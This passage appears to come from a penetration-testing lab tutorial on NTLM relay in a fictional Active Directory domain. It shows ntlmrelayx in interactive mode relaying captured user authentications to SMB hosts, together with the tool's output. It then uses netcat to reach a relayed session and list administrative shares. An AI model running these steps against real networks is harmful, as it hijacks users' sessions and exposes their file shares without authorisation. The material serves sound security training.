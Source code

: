 Alternatively, we can use the `--interactive`/ `-i` option to launch an SMB client shell for each `ntlmrelayx` established authenticated session. The SMB client shell will listen locally on a TCP port, and we can reach it with tools such as `nc`:

```
ntlmrelayx.py -tf relayTargets.txt -smb2support -i

Impacket v0.11.0 - Copyright 2023 Fortra

<SNIP>
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.50
[*] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/RMONTY SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-5: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.60
[*] Authenticating against smb://172.16.117.60 as INLANEFREIGHT/RMONTY SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11001
[*] SMBD-Thread-8: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.50
[*] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/NPORTS SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11002
[*] SMBD-Thread-8: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.60
[*] Authenticating against smb://172.16.117.60 as INLANEFREIGHT/NPORTS SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11003
<SNIP>
```

`ntlmrelayx` started interactive SMB client shells for each authenticated session on the relay targets; Each connection will open a port to the target machine. We need to search for these lines in the above output: `[*] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/RMONTY SUCCEED` followed by `[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000`. If we want to use `RMONTY`’s session to `172.16.117.50`, we need to connect to port `11000` on 127.0.0.1 using `netcat`:

```
nc -nv 127.0.0.1 11000

Connection to 127.0.0.1 11000 port [tcp/*] succeeded!
Type help for list of commands
# shares

ADMIN$
C$
Finance
IPC$
```